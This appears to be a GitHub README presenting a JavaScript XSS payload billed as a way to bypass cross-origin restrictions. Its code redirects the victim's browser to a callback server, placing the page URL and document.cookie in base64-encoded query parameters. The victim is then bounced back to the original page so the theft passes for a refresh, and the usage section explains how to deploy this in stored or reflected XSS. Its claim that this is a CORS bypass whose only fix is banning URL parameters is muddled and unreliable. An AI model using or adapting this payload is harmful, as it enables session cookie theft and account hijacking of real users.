 ## Bypass Cross-Origin Resource Sharing restrictions

This demonstrates how the location setter of browsers are vulnerable to cross origin resource sharing.

The only patch for this would be to stop allowing URL parameters for all GET requests.

This repo includes an example XSS payload and callback that, once executed, will change a browser's location to your callback server, which returns a **301 Moved Permanently** response sending the victim back to its referrer.

This example also includes a token to facilitate stored and reflected XSS; a token is added to the URL's anchor preventing the XSS payload from reactivating.

**When the attack is executed successfully, the victim experienced what seemed like a page refresh at most.**

## Usage

Use the following code in your XSS payload. You must change the new location's address to that of your callback server, and change the token at the very least.

You can shorten this code by removing the token if you are not using it in stored or reflected XSS.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) globalThis.location = "https://mycallbackserver.net/callback.php" + 
  "?referer=" + encodeURIComponent(btoa(globalThis.location.href)) + 
  "&data=" + encodeURIComponent(btoa(document.cookie)) + 
  "&token=" + encodeURIComponent(btoa(token));
```

If the victim did not send a `referer` URL parameter, the attacker's server looks for a `Referer` header value. If neither of those are provided, the victim will be redirected to a panic address of your choice.
